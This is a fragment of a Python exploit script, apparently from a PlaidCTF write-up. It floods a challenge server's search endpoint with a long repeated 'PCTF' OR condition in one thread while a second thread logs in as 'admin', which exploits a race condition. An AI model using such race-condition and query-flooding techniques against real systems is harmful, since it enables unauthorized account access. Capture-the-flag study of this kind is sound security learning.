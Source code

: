 ```python
    url = "http://triggered.pwni.ng:52856/search"
    data = {"query":condition}

    while True:
        res = s.post(url,data=data)
        print("[*] query a note ...")
        if "no result" not in res.text:
            print(res.text)
            break
        elif res.status_code != 200 :
            break

if __name__ == '__main__':

    login("test")
    login_password("123")

    t1 = threading.Thread(target=query,args=(" \"PCTF\" or "*10+ " \"PCTF\" " ,))
    t1.start()
    # time.sleep(3)
    t2 = threading.Thread(target=login,args=("admin",))
    t2.start()
```